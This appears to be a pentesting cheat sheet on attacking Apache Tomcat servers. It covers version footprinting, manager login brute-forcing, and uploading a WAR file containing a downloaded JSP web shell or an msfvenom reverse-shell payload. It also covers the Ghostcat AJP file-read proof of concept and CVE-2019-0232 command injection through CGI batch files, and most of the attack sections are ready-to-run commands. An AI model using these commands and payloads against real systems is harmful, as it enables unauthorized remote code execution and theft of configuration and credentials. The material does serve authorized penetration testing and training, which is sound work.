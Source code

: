 # Tomcat

## **Introduction**

The following schema represents a general folder structure of a Tomcat installation

```
├── bin ----------------------> The bin folder stores scripts and binaries needed to start and run a Tomcat server. 
├── conf ---------------------> The conf folder stores various configuration files used by Tomcat.
│   ├── catalina.policy
│   ├── catalina.properties
│   ├── context.xml
│   ├── tomcat-users.xml -----> Stores user credentials and roles. Allows/disallows access to /manager and /host-manager admin pages
│   ├── tomcat-users.xsd
│   └── web.xml
├── lib ----------------------> The lib folder holds the various JAR files needed for the correct functioning of Tomcat.
├── logs ---------------------> The logs and temp folders store temporary log files
├── temp ---------------------> The logs and temp folders store temporary log files
├── webapps ------------------> The webapps folder is the default webroot of Tomcat and hosts all the applications.
├── images
├── index.jsp
├── META-INF
│   └── context.xml
├── status.xsd
└── WEB-INF
|   ├── jsp
|   |   └── admin.jsp
|   └── web.xml --------------> Contains sensitive information. Stores information about the mechanisms underlying the application
|   └── lib
|   |    └── jdbc_drivers.jar
|   └── classes --------------> All compiled classes used by the application
|      └── AdminServlet.class  
|
└── work ---------------------> The work folder acts as a cache and is used to store data during runtime.
    └── Catalina
        └── localhost
```

***

## **Tomcat Footprinting & Enumeration**

| Command                                                 | Description                                                      |
| ------------------------------------------------------- | ---------------------------------------------------------------- |
| Browse to `http://test.example:8080/invalid`            | Requesting an invalid page should reveal the server and version  |
| `curl -s http://test.example:8080/docs/ \| grep Tomcat` | Read the default documentation page and check the Tomcat version |
| Browse to `http://test.example:8080/manager`            | Check if the `manager` (admin-only) page exists                  |
| Browse to `http://test.example:8080/host-manager`       | Check if the `host-manager` (admin-only) page exists             |

***

## **Tomcat Manager/Host-Manager Attacks**

> Having access to the `/manager` or `/host-manager` admin pages can help achieve `RCE` on the Tomcat server

1. **Login Bruteforcing:**
   * To attempt login bruteforcing, se the `auxiliary/scanner/http/tomcat_mgr_login` **Metasploit module**
   * Note: in case of errors, you might need to `set PROXIES http://127.0.0.1:8080` and **edit the requests** sent by the module with **BurpSuite**
2. **Tomcat Manager WAR File Upload to RCE**
   * Prerequisites: credentials of a user with the `manager-gui` role
   * **\[Automatically] - Metasploit:** `multi/http/tomcat_mgr_upload`
   * **\[Manually]** - Download JSP Web Shell: `wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp`
   * Add the web shell to a WAR archive: `zip -r backup.war cmd.jsp`
   * **\[Alternative Payload]:** `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your-ip> LPORT=<your-nc-port> -f war > backup.war`
   * Navigate to `/manager/html` and **upload the previous WAR file containing the JSP WEB Shell**
   * Get RCE: `curl http://test.example:8080/backup/cmd.jsp?cmd=id`

***

## **Tomcat Unauthenticated LFI - CVE-2020-1938 - GHOSTCAT**

> * Only works if the `port 8009` is running the `AJP` service
> * Only allows to read files and folders within the `webapps` folder

**Follow these steps:**

1. Use [https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)
2. PoC: `python2.7 tomcat-ajp.lfi.py test.example -p 8009 -f WEB-INF/web.xml`

***

## **Attacking Tomcat-CGI \[CVE-2019-0232] - Windows only**

> 1. What is a CGI Servlet?
>    * A CGI Servlet is a program that runs on a web server to support the execution of external applications that conform to the CGI specification.
>    * It is a middleware between web servers and external information resources like databases
> 2. How does CVE-2019-0232 work?
>    * CVE-2019-0232 is a critical security issue that could result in remote code execution.
>    * Versions 9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39, and 7.0.0 to 7.0.93 of Tomcat are affected.
>    * This vulnerability affects Windows systems that have the `enableCmdLineArguments` feature enabled.
>    * An attacker can exploit this vulnerability by exploiting a command injection flaw resulting from a Tomcat CGI Servlet input validation error, allowing to execute arbitrary commands on the affected system.

**Follow these steps:**

* Find any `.cmd` or `.bat` file inside the `cgi directory` by `extension fuzzing`
* Fuzzing `.cmd`: `ffuf -w /usr/share/dirb/wordlists/common.txt -u http://test.example:8080/cgi/FUZZ.cmd`
* Fuzzing `.bat`: `ffuf -w /usr/share/dirb/wordlists/common.txt -u http://test.example:8080/cgi/FUZZ.bat`
* After finding one such file, append `&command` to gain RCE (example: welcome.bat)
* `http://test.example:8080/cgi/welcome.bat?&dir`
* `Troubleshooting`: specify the `absolute path to the command`, or alternatively you might need to use `URL Encoding`
